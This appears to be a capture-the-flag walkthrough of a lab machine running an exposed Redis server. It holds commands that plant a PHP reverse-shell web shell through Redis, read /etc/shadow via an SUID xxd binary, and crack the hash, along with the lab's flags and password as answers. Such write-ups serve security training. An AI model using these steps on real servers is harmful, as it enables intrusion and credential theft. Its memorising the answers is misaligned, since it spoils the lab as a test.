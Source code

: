 ### Scan the machine, how many ports are open?
```BASH
sudo nmap -sV -p- $ip
```
![alt text](image.png)

<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's is the database management system installed on the server?
<pre>redis</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What port is the database management system running on?
<pre>6379</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's is the version of management system installed on the server?
<pre>6.0.7</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Compromise the machine and locate user.txt
Tried to:
```BASH
redis-cli -h 10.10.96.238 6379
```
![alt text](image-1.png)

You can connect to the Redis server and Lua scripting is allowed, but it's sandboxed so you can't run system commands.

Start netcat listener:
```BASH
nc -lvnp 4444
```

Write this in redis console:
```BASH
flushall
set x "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.220.167/4444 0>&1\"'); ?>"
config set dir /var/www/html/
config set dbfilename shell.php
save
```

Once you hit save, you have access to reverse shell
![alt text](image-4.png)

Spawn a TTY shell:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Look for user flag by using grep:
```BASH
grep -r --include="user.txt" . /home 2>/dev/null
```
![alt text](image-7.png)

<pre>thm{red1s_rce_w1thout_credent1als}</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the local user account password?
From the prevous grep you know that local user is vianka, but don't know her password. Look at all SUID binaries:
```BASH
find / -perm -4000 -type f 2>/dev/null
```
![alt text](image-6.png)

The exploitable SUID binary is `/usr/bin/xxd`. Go to [GTFObins](https://gtfobins.github.io/#) and search for xxd. In linux systems user's password are stored in `/etc/shadow`.

```BASH
LFILE=/etc/shadow
sudo xxd "$LFILE" | xxd -r
```
![alt text](image-8.png)

Run john to crack hash:
```BASH
/usr/sbin/john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![alt text](image-9.png)

<pre>beautiful1</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Escalate privileges and obtain root.txt
Check vianka priviligies:
```BASH
sudo -l
```
![alt text](image-10.png)  

Shows that vianka has full sudo access without restriction.

Get root and read root flag:
```BASH
sudo su -
cd /root
cat root.txt
```
![alt text](image-11.png)

<pre>thm{xxd_pr1v_escalat1on}</pre>

<span style="line-height:0.5;">&nbsp;</span>